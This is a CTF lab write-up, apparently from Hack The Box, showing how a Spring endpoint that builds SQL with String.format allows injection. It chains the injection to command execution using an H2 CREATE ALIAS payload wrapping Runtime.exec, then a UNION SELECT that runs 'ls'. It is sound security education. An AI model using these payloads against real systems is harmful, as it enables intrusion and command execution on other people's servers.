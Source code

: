 
---

# Pentest Notes: SQLi to RCE via H2 Database ALIAS

## Overview
We discovered a SQL injection vulnerability in a note retrieval function. The initial access is gained through a default user account (`user`, `123`), which can be inserted using the following SQL command:

```sql
INSERT INTO users (id, username, password) VALUES (1, 'user', '123');
```

## Vulnerable Endpoint
The vulnerable Java endpoint is implemented as follows:

```java
@PostMapping("/note")
public ResponseEntity<?> noteByName(@RequestParam String name, HttpSession httpSession) {
    if (httpSession.getAttribute("username") == null) {
        return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
    }
    if (name.contains("$") || name.toLowerCase().contains("concat")) {
        return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
    }
    String query = String.format("Select * from notes where name ='%s' ", name);
    List<Object[]> resultList = entityManager.createNativeQuery(query).getResultList();
    List<Map<String, Object>> result = new ArrayList<>();
    for (Object[] row : resultList) {
        Map<String, Object> rowMap = new HashMap<>();
        rowMap.put("ID", row[0]);
        rowMap.put("Name", row[1]);
        rowMap.put("Note", row[2]);
        result.add(rowMap);
    }
    return ResponseEntity.ok(result);
}
```

### Analysis
- **SQL Injection:**  
  The `name` parameter is directly injected into the SQL query without proper sanitization, allowing SQL injection. For example, injecting:
  
  ```
  ' OR 1=1;-- 
  ```
  
  returns all notes.
![Executin](https://github.com/tunsimp/CTF/blob/main/HTB/Pentest%20Notes/SQLI.png)
- **Restricted Characters:**  
  The code checks for the presence of `$` and the keyword `concat` (in any case) to block certain payloads. However, these restrictions can be bypassed since they aren’t needed for creating a function alias.

## Chaining SQLi to RCE with H2 ALIAS
We can leverage a vulnerability in H2 databases that allows us to create a Java ALIAS to execute system commands.

### Step 1: Creating the ALIAS
Using SQL injection, we inject the following payload to create an alias named `EXECVE`:

```sql
'CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException {
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";
}';--
```

*Note:*  
Since `CREATE ALIAS` expects a string parameter, we don’t need to use `$`, and the restriction on `concat` is irrelevant in this context.

### Step 2: Executing the Function
Once the alias is created, we can chain another SQL injection payload to call the function. For example, to list directory contents:

```sql
' UNION SELECT NULL, NULL, EXECVE('ls') AS note;--
```

This payload ensures that the number of columns match (two `NULL` values followed by the function call result), thereby executing the command and displaying its output.
![Executin](https://github.com/tunsimp/CTF/blob/main/HTB/Pentest%20Notes/screenshot.png)

---

